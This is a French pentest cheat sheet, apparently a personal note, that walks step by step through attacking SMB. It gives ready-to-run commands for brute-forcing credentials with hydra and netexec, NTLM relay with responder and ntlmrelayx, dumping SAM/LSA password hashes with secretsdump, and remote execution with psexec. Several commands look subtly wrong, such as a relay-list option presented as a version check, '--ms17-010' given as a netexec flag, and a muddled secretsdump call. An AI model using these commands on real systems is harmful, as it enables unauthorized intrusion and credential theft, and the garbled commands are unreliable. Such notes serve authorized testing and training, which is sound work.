

Le flux d'énumération et d'exploitation du protocole **SMB** suit généralement une progression logique allant de la reconnaissance passive à l'extraction de données.



## Détection du service SMB

### Scanner SMB avec **netexec**
Le remplacement moderne de **crackmapexec** est **netexec**.

```bash
netexec smb target.com
```

Sortie attendue :
```text
SMB         target.com    445    Windows 10 Pro 19041
```

### Scanner SMB avec **nmap**
```bash
nmap -p 139,445 --script=smb-os-discovery target.com
```

## Identification de version

> [!warning]
> Le protocole **SMBv1** est obsolète et vulnérable à **EternalBlue** (CVE-2017-0144).

### Vérifier la version avec **netexec**
```bash
netexec smb target.com --gen-relay-list smb_hosts.txt
```

### Scanner **SMBv1** avec **nmap**
```bash
nmap --script=smb-protocols -p 445 target.com
```

## SMB Signing (exigé vs non-exigé)

> [!tip]
> Vérifier systématiquement le **SMB Signing** : s'il est désactivé, le relaying est possible.

Le **SMB Signing** est une mesure de sécurité qui signe numériquement les paquets SMB pour éviter les attaques de type Man-in-the-Middle.

```bash
netexec smb target.com --gen-relay-list /dev/stdout
```
Si la sortie indique `SMB-Signing: False`, la cible est potentiellement vulnérable au relaying.

## Null Sessions et Guest Access

Une **Null Session** permet de se connecter au service SMB sans identifiants valides, souvent pour énumérer des informations sur le domaine.

```bash
# Test de Null Session avec netexec
netexec smb target.com -u '' -p '' --shares

# Test avec smbclient
smbclient -L //target.com -N
```

## Énumération des partages SMB

### Lister les partages avec **netexec**
```bash
netexec smb target.com --shares
```

### Lister les partages avec **nmap**
```bash
nmap --script=smb-enum-shares -p 445 target.com
```

### Lister les partages avec **smbclient**
```bash
smbclient -L //target.com -N
```

## Accès aux partages SMB

### Connexion anonyme (Null Session)
```bash
netexec smb target.com -u '' -p '' --shares
```

### Connexion avec identifiants
```bash
netexec smb target.com -u administrator -p 'password' --shares
```

## Énumération des utilisateurs

### Énumérer les utilisateurs avec **netexec**
```bash
netexec smb target.com --users
```

### Énumérer les utilisateurs avec **rpcclient**
```bash
rpcclient -U "" target.com
enumdomusers
```

## Bruteforce des identifiants SMB

> [!danger]
> Attention au blocage des comptes lors du bruteforce (Account Lockout Policy).

### Bruteforce avec **netexec**
```bash
netexec smb target.com -u users.txt -p passwords.txt
```

### Bruteforce avec **hydra**
```bash
hydra -L users.txt -P passwords.txt smb://target.com
```

## Scan de vulnérabilités (MS17-010)

> [!warning]
> La commande **--ms17-010** est requise pour scanner cette vulnérabilité spécifique.

### Scanner avec **netexec**
```bash
netexec smb target.com --ms17-010
```

### Scanner avec **nmap**
```bash
nmap --script=smb-vuln-ms17-010 -p 445 target.com
```

## Énumération RID

> [!info]
> L'énumération **RID** nécessite souvent un compte valide ou un accès null session autorisé.

```bash
netexec smb target.com -u "valid_user" -p "valid_password" --rid-brute | grep SidTypeUser
```

## Énumération des groupes AD
```bash
netexec smb target.com -u "valid_user" -p "valid_password" --groups
```

## Énumération des sessions
```bash
netexec smb target.com -u "valid_user" -p "valid_password" --sessions
```

## SMB Relay Attacks (NTLM Relay)

Si le **SMB Signing** est désactivé, il est possible de relayer des authentifications NTLM vers la cible. Voir la note liée **NTLM Relay Attacks**.

```bash
# Lancer responder pour capturer/relayer
responder -I eth0 -rdw

# Lancer ntlmrelayx pour relayer vers la cible
impacket-ntlmrelayx -tf targets.txt -smb2support
```

## Extraction de mots de passe via SAM/LSA (si accès admin)

Si vous disposez de privilèges d'administration locale, vous pouvez extraire les hashes du registre.

```bash
# Extraction via netexec
netexec smb target.com -u admin -p password --sam

# Extraction via secretsdump (Impacket)
impacket-secretsdump -sam -system -security LOCAL@target.com
```

## Utilisation de Impacket (psexec.py, smbclient.py)

Les outils **Impacket** sont indispensables pour l'exploitation avancée.

```bash
# Exécution de commande via psexec
impacket-psexec domain/user:password@target.com

# Interaction avec un partage via smbclient.py
impacket-smbclient domain/user:password@target.com
```

## Synthèse des outils

| Étape | Commande |
| :--- | :--- |
| Scanner SMB | `netexec smb target.com` |
| Identifier version | `netexec smb target.com --gen-relay-list smb_hosts.txt` |
| Lister partages | `netexec smb target.com --shares` |
| Connexion anonyme | `netexec smb target.com -u '' -p '' --shares` |
| Énumérer utilisateurs | `netexec smb target.com --users` |
| Bruteforce | `netexec smb target.com -u users.txt -p passwords.txt` |
| Scanner MS17-010 | `netexec smb target.com --ms17-010` |
| Énumérer RIDs | `netexec smb target.com -u "valid_user" -p "valid_password" --rid-brute` |
| Lister groupes AD | `netexec smb target.com -u "valid_user" -p "valid_password" --groups` |
| Lister sessions | `netexec smb target.com -u "valid_user" -p "valid_password" --sessions` |

> [!note]
> Voir également les notes sur **Active Directory Enumeration**, **NTLM Relay Attacks**, **SMB Signing and Relay** et **Password Attacks**.